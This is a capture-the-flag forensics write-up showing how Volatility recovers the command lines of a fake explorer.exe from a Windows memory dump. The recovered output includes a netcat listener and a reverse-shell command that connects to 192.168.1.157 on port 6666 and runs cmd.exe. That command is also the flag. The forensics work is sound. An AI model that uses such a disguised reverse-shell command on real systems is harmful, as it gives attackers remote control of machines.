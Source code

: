 # Commands

![Forensics](https://img.shields.io/badge/Forensics--8700ff?style=for-the-badge) ![Points - 100](https://img.shields.io/badge/Points-100-9cf?style=for-the-badge)

```txt
What was the command used with the malicious explorer.exe? Submit the entire command as the flag: flag{program.exe --options argument}.

Use the file from Captured Memories.
```

---

_You should probably take a look at [`Evil Twin`](../Evil%20Twin/README.md) before reading through this._

Ok, this challenge shouldn't be too hard, right? Simply take the PID of the imposter `explorer.exe`, use it in the `cmdline` command and _boom_ we're golden? - right? ... well... not quite... 

```bash
python2.7 vol.py -f mem.raw --profile=Win10x64_15063 cmdline -p 5448
```

```txt
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
explorer.exe pid:   5448
Command line : explorer.exe  -lnvp 6666
```

... while you can try and submit the output above as the flag. It won't work! ^^ This, at least for us, was the cause of some confusion at first, however, as it turns out, there another instance of the imposter `explorer.exe` was running at the time of the memory dump.

Using the `pstree` command like we did before, you can see it directly underneath the first instance. It's this process' command line you want to get.

```bash
python2.7 vol.py -f mem.raw --profile=Win10x64_15063 pstree
```

```txt
...    ...    ...    ... ...
... 0xffff878691456080:cmd.exe                       3944   4448      0 ------ 2020-06-26 15:37:19 UTC+0000
.... 0xffff87868fd63580:conhost.exe                  5432   3944      4      0 2020-06-26 15:37:19 UTC+0000
.... 0xffff878691762080:explorer.exe                 5448   3944      1      0 2020-06-26 15:43:14 UTC+0000
... 0xffff878691457580:cmd.exe                       4424   4448      1      0 2020-06-26 15:46:51 UTC+0000
.... 0xffff87868f773080:explorer.exe                 3100   4424      5      0 2020-06-26 15:48:21 UTC+0000
..... 0xffff87868f77b340:cmd.exe                     4640   3100      1      0 2020-06-26 15:48:21 UTC+0000
.... 0xffff87868f998080:conhost.exe                  6372   4424      3      0 2020-06-26 15:46:51 UTC+0000
                                                      ...    ...    ...    ... ...
```

So, just use the `cmdline` command on this PID (`3100`) ... and ... this time you get the correct commandline:

```bash
python2.7 vol.py -f mem.raw --profile=Win10x64_15063 cmdline -p 3100
```

```txt
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
explorer.exe pid:   3100
Command line : explorer.exe  192.168.1.157 6666 -e cmd.exe
```

The flag eventually was: `flag{explorer.exe 192.168.1.157 6666 -e cmd.exe}`
